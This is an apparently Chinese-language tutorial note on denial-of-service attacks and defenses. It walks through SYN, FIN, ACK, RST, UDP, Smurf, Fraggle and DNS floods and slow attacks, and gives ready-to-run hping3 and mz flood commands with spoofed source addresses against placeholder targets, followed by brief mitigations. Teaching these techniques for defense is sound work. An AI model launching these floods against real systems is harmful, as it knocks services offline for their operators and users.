


## DoS攻击
&#8195;&#8195;DoS是denial of service的简称，即拒绝服务。以DoS为手段，来使得目标瘫痪的攻击称为DoS攻击。不同于其他手段（木马、劫持等），DoS并不窃取、威胁合法用户数据，其主要目的是使目标瘫痪，从而无法给合法用户提供服务。

<p align="center">

</p>

&#8195;&#8195;DDOS是destributed denial of service的简称，即使用多个计算机联合，对一个或者多个目标发动DoS攻击，成倍的提高DoS攻击的威力。

&#8195;&#8195;DoS如果按照OSI或者TCP/IP网络架构模型大致可以分为两类：应用层DoS攻击和网络层DoS攻击。

## 网络层DoS攻击
&#8195;&#8195;针对tcp协议，我们可以在其握手、挥手阶段来进行攻击：通过发送无效的SYN/ACK/FIN/RST包来进行DoS攻击。

&#8195;&#8195;比较简单的攻击工具有hping3等，它们可以针对tcp、icamp等协议进行攻击。
```
ubunut: sudo apt install hping3
macos: brew install hping && export PAHT=$PATH:/usr/local/sbin
```

## 攻击工具
### hpinp3
```
hping3 -[S|F] [--flood|-c $num] [-w $num] [--rand-source] -V -p TARGET_PORT TARGET_SITE

-S 表示发送无效SYN包；-F 表示发送无用的FIN包
--flood 表示泛洪发送，即尽可能多地发送，也可以使用 "-c 24234"来指定发送数量
-V 表示verbose
-p 指定攻击端口
--rand-source 使用随机ip来攻击，如果不指定，则
-w tcp winsize
```

### TCP SYN泛洪攻击
&#8195;&#8195;如果攻击者向一个没有建立TCP连接的服务器发送SYN包,服务器需要消耗资源来处理，并返回一个SIN/ACK包。
```
hping3 -S --flood --rand-source -V -p TARGET_PORT TARGET_SITE
```

### TCP FIN泛洪攻击
&#8195;&#8195;如果攻击者向一个没有建立TCP连接的服务器发送FIN包会被丢弃，但是服务器需要消耗资源来处理。
```
hping3 -F --flood --rand-source -V -p TARGET_PORT TARGET_SITE
```

### TCP ACK泛洪攻击
&#8195;&#8195;我们也可以向目标机器发送大量无效的PUSH或者ACK包，来让服务器大量消耗资源，使其无法响应合法的请求：
```
hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP
```

### TCP RST攻击
&#8195;&#8195;如果我们捕捉到某个正常用户的源地址，那么我们可以使用伪造的RST包（IP为该用户的IP），来使得这个用户和目标服务器断开TCP链接。
```
hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP
```

### UDP 泛洪攻击
&#8195;&#8195;针对类似于UDP这些无连接的协议，攻击者可以发送大量伪造源ip地址的小UDP包。
```
hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP
```

### TCP SYN/ACK/FIN/RST应对方法
- 在路由器中，当发现过多的SYN、FIN、RST包时，直接丢弃
- 加资源：带宽、cpu等


### DDOS放大型攻击
&#8195;&#8195;攻击者不是直接把通信包发给受害者，发给放大器然后反射个受害者。这种手段利用回复包比请求包大的特点，伪造请求包的源ip地址，将应答包引向被攻击的目标。

<p align="center">

</p>

&#8195;&#8195;使用这种手段的前提是攻击者和目标之间使用的是无需验证源地址的无连接协议。常见的攻击有Smurf攻击（ICMP）放大、DNS放大攻击、Fraggle攻击（UDP放大）。

#### Smurf攻击
&#8195;&#8195;Smurf攻击通过将回复地址设置成受害者网络的广播地址的ICMP应答请求包，来淹没受害者主机。最终导致该网络的所有主机都对此ICMP应答请求做出回复，导致网络阻塞或者受害者主机无法处理如此大量的回复请求。
```
hping3 --icmp --spoof TARGET_IP BROADCAST_IP
```

#### DNS放大攻击
&#8195;&#8195;对于dns服务而言，其响应包是比请求包大的。因此我们可以冒充目标机器，向dns解析器发送大量的请求，使得目标机器及其所处的网络耗费大量资源来处理dns响应包
。

#### Fraggle 攻击
&#8195;&#8195;Fraggle攻击类似于Smurf攻击，只是使用UDP应答消息，而非ICMP。
```
hping3 --udp --spoof TARGET_IP BROADCAST_IP
```

### 应用层DOS攻击
&#8195;&#8195;我们可以在连接建立之后，向目标机器提交服务请求，消耗服务器计算资源。这种请求在网络层面的表现是正常，但是对于应用而言，由于请求量过大，会造成服务负载过高。

&#8195;&#8195;应用层协议有HPPT,HTTPS,DNS,SMPT,FTP,VOIP等。在网盟系统里面，我们可以尝试发起大量的点击、回调请求，而不接受任何的响应。

应对方法：
- 增加验证机制，验证不通过则直接拒绝提供服务
- 限制每个用户的请求次数、频率

### DNS泛洪攻击
&#8195;&#8195;不同于DNS放大攻击，DNS泛洪攻击的目标就是DNS服务器。攻击者可以向目标DNS服务器发送大量的域名解析请求（这些域名可以随机生成）。被攻击的DNS服务器在解析域名的时候，会先查找本地缓存，如果查找不到，就会向上层DNS服务器递归查询域名信息（递归查询或者迭代查询）。这种方式有可能造成整个DNS解析链路崩溃。

&#8195;&#8195;常见的工具有netstress和mz（Mausezahn）
```
sudo apt intall mz

mz -A rand -B TARGET_DNS_SERVER -t dns "q=pentest.blog" -c 10000000

-A 源ip地址
-B 目标DNS服务器
-t package类型，可以指定为dns解析请求包
-c 请求次数
```

应对方法：
- 仅接受来自某些子网的查询
- 仅接受某些域名的解析

### 慢速DOS攻击
&#8195;&#8195;我们在和目标机器建立一个content-length很大的连接（表示我们要发送一个很大的content过去），然后以低速如每秒一个字节发送数据，并维持连接不断开。只要连接数量足够大，就能够将服务器上的连接池耗尽，从而使得目标机器无法提供正常服务。

## 防范方法
上面也写了一些方法，一下是一些总结和补充：
- 如果请求有特征，如IP、UA等，那么可以很对具备这些特征的请求进行屏蔽，可以使用专用的硬件、防火墙、nginx/apache过滤器等
```
location / {
  deny $ip;
}
```
- 大部分ddos攻击并不具备明显的特征。一个比较简单的应对方法就是对资源进行自动扩容，大部分云服务商都具备这类功能。
- 使用CDN。尽量将静态资源放在CDN服务器上，既可以降低自身服务器带宽，也可以提升用户加载速度。
- 使用高防ip。高防ip一般具备流量缓冲、清洗功能。